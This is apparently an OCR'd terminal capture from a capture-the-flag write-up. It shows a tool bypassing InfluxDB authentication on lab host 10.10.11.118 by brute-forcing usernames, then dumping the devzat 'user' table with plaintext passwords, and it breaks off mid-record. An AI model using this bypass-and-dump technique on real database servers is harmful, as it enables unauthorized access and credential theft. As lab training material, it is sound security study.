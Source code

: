 ```sql
Port (default: 8086): 6969
Username <OR> path to username file (default: users.txt):
Bruteforcing usernames ... 
[v] admin 
Host vulnerable !!!
https://docs.influxdata.com/influxdb/v1.7/introduction/getting-started/
Databases:
1) devzat         
2) _internal
.quit to exit
[admin@10.10.11.118] Database: 1
Starting InfluxDB shell - .back to go back
[admin@10.10.11.118/devzat] $ show measurements       
{ 
    "results": [ 
        {          
            "series": [   
                {            
                    "columns": [   
                        "name"     
                    ], 
                    "name": "measurements",    
                    "values": [ 
                        [ 
                            "user"  
                        ]  
                    ]  
                }  
            ],
            "statement_id": 0 
        }  
    ]
}
[admin@10.10.11.118/devzat] $ select * from "user"
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
```